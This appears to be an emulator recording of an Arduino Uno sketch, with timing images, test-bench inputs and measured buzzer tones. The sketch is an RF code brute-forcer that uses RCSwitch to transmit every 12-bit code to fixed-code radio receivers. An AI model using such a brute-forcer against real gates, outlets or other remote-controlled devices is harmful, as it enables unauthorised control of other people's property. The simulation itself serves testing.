
Recording of a sketch running on a simulated Arduino Uno, built with avr-gcc and run on an emulated ATmega328P. Shown: output pins drawn as LEDs (lit = HIGH), buzzer (waves = sounding), the last lines printed to the serial monitor. Inputs (shaded band) come from the test bench; at power-on: pin 7 LOW.

Above: at 1.2 s.
1.3 s: pin 7 driven HIGH
At 3.4 s:

4.3 s: pin 7 driven LOW
Timing chart, 0 to 7.3 s (numbered marks = the images above; inputs shaded):


The sketch:

code_bruteforcer_rf.ino
```cpp
#include <RCSwitch.h>
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
short int pulse=312, repeat=5;
RCSwitch mySwitch = RCSwitch();
static const char alphabet[] ="01";
static const int alphabetSize = sizeof(alphabet) - 1;
int buzzerpin=8;
int count=1;
int red_led_pin=4;
void bruteImpl(char* str, int index, int maxDepth) {
    for (int i = 0; i < alphabetSize; ++i)
    {
        str[index] = alphabet[i];

        if (index == maxDepth - 1) {
           Serial.print(count);
           Serial.print(" : ");
           Serial.print(str);
           Serial.print("\n");
           mySwitch.send(str);
           //digitalWrite(red_led_pin, HIGH);
           //delay(50);
           //digitalWrite(red_led_pin, LOW);
           //delay(50);
           count++;
        }
        else bruteImpl(str, index + 1, maxDepth);
        if (digitalRead(7)==HIGH) break;
    }
}
void setup() {
  Serial.begin(9600);

  // Transmitter is connected to Arduino Pin #10
  mySwitch.enableTransmit(10);

  // Optional set protocol (default is 1, will work for most outlets)
  mySwitch.setProtocol(11);

  // Optional set pulse length.
  mySwitch.setPulseLength(pulse);

  // Optional set number of transmission repetitions.
  mySwitch.setRepeatTransmit(repeat);
  pinMode(red_led_pin, OUTPUT);
  pinMode(7, INPUT);
  pinMode(buzzerpin, OUTPUT);
}

void loop() {
  short int but_state=digitalRead(7);
  if (but_state==HIGH) {
    char* buf_12 = (char *)malloc(13);
    //char* buf_8 = (char *)malloc(9);
    memset(buf_12, 0, 13);
    //memset(buf_8, 0, 9);
    for (int i=0;i<=150;i++) {
    digitalWrite(buzzerpin, HIGH);
    delay(2);
    digitalWrite(buzzerpin, LOW);
    delay(2);
    }
    bruteImpl(buf_12, 0, 12);
    count=1;
    //bruteImpl(buf_8, 0, 8);
    //count=1;
    for (int i=0;i<=400;i++) {
    digitalWrite(buzzerpin, HIGH);
    delay(3);
    digitalWrite(buzzerpin, LOW);
    delay(3);
    }
    free(buf_12);
    //free(buf_8);
  }
}
```

Measured:
- after the input at 1.3 s, tone on pin 8 (buzzerpin): silent → 249 Hz after 0.05 s, → silent 0.60 s later, → 166 Hz 0.46 s later
